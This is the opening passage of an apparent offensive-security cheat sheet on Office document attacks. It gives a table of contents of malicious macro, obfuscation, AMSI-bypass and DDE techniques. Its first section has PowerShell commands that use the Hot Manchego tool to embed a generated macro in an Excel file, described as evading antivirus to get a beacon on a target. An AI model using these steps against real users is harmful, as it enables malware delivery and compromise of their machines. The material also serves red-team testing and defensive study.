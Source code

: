 # Office - Attacks 

## Summary

* [XLSM - Hot Manchego](#xlsm---hot-manchego)
* [XLS - Macrome](#xls---macrome)
* [XLM Excel 4.0 - SharpShooter](#xlm-excel-40---sharpshooter)
* [XLM Excel 4.0 - EXCELntDonut](#xlm-excel-40---excelntdonut)
* [XLM Excel 4.0 - EXEC](#xlm-excel-40---exec)
* [DOCM - Metasploit](#docm---metasploit)
* [DOCM - Download and Execute](#docm---download-and-execute)
* [DOCM - Macro Creator](#docm---macro-creator)
* [DOCM - C# converted to Office VBA macro](#docm---c-converted-to-office-vba-macro)
* [DOCM - VBA Wscript](#docm---vba-wscript)
* [DOCM - VBA Shell Execute Comment](#docm---vba-shell-execute-comment)
* [DOCM - VBA Spawning via svchost.exe using Scheduled Task](#docm---vba-spawning-via-svchost-exe-using-scheduled-task)
* [DCOM - WMI COM functions (VBA AMSI)](#docm---wmi-com-functions-vba-amsi)
* [DOCM - winmgmts](#docm---winmgmts)
* [DOCM - Macro Pack - Macro and DDE](#dcom---macro-pack---macro-and-dde)
* [DOCM - CACTUSTORCH VBA Module](#docm---cactustorch-vba-module)
* [VBA Obfuscation](#vba-obfuscation)
* [VBA Purging](#vba-purging)
    * [OfficePurge](#officepurge)
    * [EvilClippy](#evilclippy)
* [VBA AMSI](#vba-amsi)
* [VBA - Offensive Security Template](#vba---offensive-security-template)
* [DOCX - Template Injection](#docx---template-injection)
* [DOCX - DDE](#docx---dde)
* [References](#references)

## XLSM - Hot Manchego 

> When using EPPlus, the creation of the Excel document varied significantly enough that most A/V didn't catch a simple lolbas payload to get a beacon on a target machine.

* https://github.com/FortyNorthSecurity/hot-manchego

```ps1
Generate CS Macro and save it to Windows as vba.txt
PS> New-Item blank.xlsm
PS> C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /reference:EPPlus.dll hot-manchego.cs
PS> .\hot-manchego.exe .\blank.xlsm .\vba.txt
```

## XLM - Macrome

> XOR Obfuscation technique will NOT work with VBA macros since VBA is stored in a different stream that will not be encrypted when you password protect the document. This only works for Excel 4.0 macros.
